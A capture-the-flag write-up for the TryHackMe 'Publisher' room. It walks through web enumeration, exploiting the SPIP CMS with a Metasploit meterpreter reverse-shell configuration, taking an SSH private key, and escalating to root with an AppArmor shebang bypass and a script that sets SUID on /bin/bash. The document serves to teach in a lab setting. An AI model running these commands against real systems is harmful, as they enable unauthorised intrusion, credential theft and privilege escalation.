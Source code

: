 # Writeup for Room "Publisher"

This is the writeup for the box Publisher

## 🔍 Enumeration Phase

## 1. WebSite
- The website is running on Apache.
- No useful information was found in `robots.txt`.

    ![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/00.png)

    ![robots.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/01.png)

## 2. Fuzzing
-  **Dirbuster / Gobuster** was used to find directories and files, the following images show the results:

    ![Fuzzing](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/02.png)

> [!NOTE]
> There is a list of images that might contain hidden information (steganography).

## 📡 3. Nmap Scan
- The following information was found:
  - The port 22 is open. **SSH**
  - The port 80 is open. **HTTP (Apache)**

    ![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/03.png)

## 4. More Fuzzing 
- I also used the command ```dirsearch -u ip-machine``` to find more directories and files.

    ![dirsearch](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/04.png)

## 🌐🖥️ 5. WebSite - Investigation
- It turns out that SPIP is a free and open-source CMS.

    ![spip](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/05.png)

- We have identified a directory called ```/spip```:

    ![spip-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/06.png)

- And there's a login form located at ```/spip/spip.php```.

    ![spip-3](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/07.png)

## 🌐🖥️ 6. WebSite - Reverse Shell

- After several attempts, I managed to exploit SPIP using msfconsole with the following configuration:

```bash
set RHOSTS <TARGET_IP>
set TARGETURI /spip/
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <YOUR_ATTACKER_IP> (in my case, my VPN IP)
```

    ![msfconsole](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/08.png)

- Then I navigated to ```/home/think``` and found the first flag.

    ![first-flag](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/09.png)

## 🌐🖥️ 7. Enumeration exploits - LinPEAS

- I decided to upload linpeas.sh, gave it execute permissions, and used it to check for possible privilege escalation vectors.

    ![linpeas](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/10.png)

## 🔑 8. SSH Access

- After reviewing the output from LinPEAS, I found an SSH private key.

    ![ssh-key](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/11.png)

- I downloaded the key, but when trying to use it, I got a permission denied error. I had to run:

    ![ssh-key-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/12.png)

- ```chmod 600 <key_file>``` to be able to connect successfully.

    ![ssh-key-3](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/13.png)

    ![ssh-key-4](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/14.png)

## 🐚💻🚀 9.Privilege Escalation

- The room's hint mentioned AppArmor. After searching around and experimenting, I ran the following command ```ls /etc/apparmor.d/ -la``` to gather more information on the active profiles:

    ![apparmor](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/15.png)

- There was a file named ```usr.sbin.ash```, which looked interesting, and I had permission to use a script called ```run_container```.

    ![run_container](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/16.png)

- The ```sbin.ash``` AppArmor profile contains rules that deny access to certain directories.

    ![apparmor-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/17.png)

- While researching online, I found a trick to bypass AppArmor using a container and chmod, as described here: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/apparmor.html#apparmor-shebang-bypass

- I tried running:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```
- But it returned a "Permission denied" error.

    ![permission-denied](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/18.png)

- Then I tried the following:

```bash
echo -e '#!/usr/bin/perl\nexec "/bin/sh"' > /dev/shm/test.pl
chmod +x /dev/shm/test.pl
/dev/shm/test.pl
```

- ```/dev/shm``` is a temporary shared memory location with more relaxed permissions.
- A simple Perl script is created and executed to launch ```/bin/sh```.
- Result: Shell access was granted, but not yet with root privileges.

    ![shell-access](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/19.png)

- Then I executed the following:
  
```bash
echo '#!/bin/bash\nchmod +s /bin/bash' > /opt/run_container.sh
```

- This script does the following:

```chmod +s /bin/bash```
  - Sets the SUID bit on /bin/bash, allowing it to inherit the owner’s privileges (root) when executed.

- Now, if we run ```/bin/bash -p``` and execute ```cat /root/root.txt``` or ```id```, we can see the final flag and confirm we have root privileges.

    ![root-privileges](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/publisher/screenshots/20.png)
